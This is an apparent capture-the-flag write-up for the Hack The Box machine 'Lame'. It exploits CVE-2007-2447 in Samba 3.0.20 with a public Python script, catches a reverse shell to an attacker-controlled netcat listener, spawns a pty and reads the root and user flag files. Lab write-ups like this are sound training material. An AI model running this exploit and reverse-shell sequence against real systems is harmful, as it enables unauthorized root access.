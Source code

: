 # Samba Service Enumeration
Through the scan result from the previous section the **Samba** service version of the target was identified as 
***3.0.20***. Google-Fu with the version had identified a known vulnerability through ***CVE-2007-2447***. Though
metasploit module is available for the vulnerability, further googling had identified a working python exploit on GitHub
by **amriunix**[^footnote2]. 

# Foothold
Before executing the exploit, the required package ***pysmb*** needed to be installed through *pip*. 
A *netcat* listener, listening on port **9095** was initiated after which the exploit script was executed as follows.
```shell
[b4bygroot@arcolinux Lame ]$ python usermapScript.py 10.10.10.3 445 10.10.14.3 9095
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
``` 
This resulted in a reverse shell on the netcat listener. Enumerating further had showed that the shell received was from
the **root** user, eliminating the need for privilege escalation. The same is shown on the section below.
```shell
➜  Lame  nc -nvlp 9095                                         
Connection from 10.10.10.3:52271
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/# id
id
uid=0(root) gid=0(root)
root@lame:/# cat /root/root.txt
cat /root/root.txt
0a4e1bf944cdc7df8c2f1eb56bf8030d
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
a392eccf53d48a4abf840247bd155f80
root@lame:/# 
```
![Root Shell](/assets/images/posts/Lame/rootShell.png)

# System Owned
![System Owned](/assets/images/posts/Lame/machineOwn.png)

# Resources
[^footnote]:[targetRecon](https://github.com/b4bygroot/TargetRecon)
[^footnote2]:[CVE-2007-2447 Samba usermap script](https://github.com/amriunix/CVE-2007-2447)
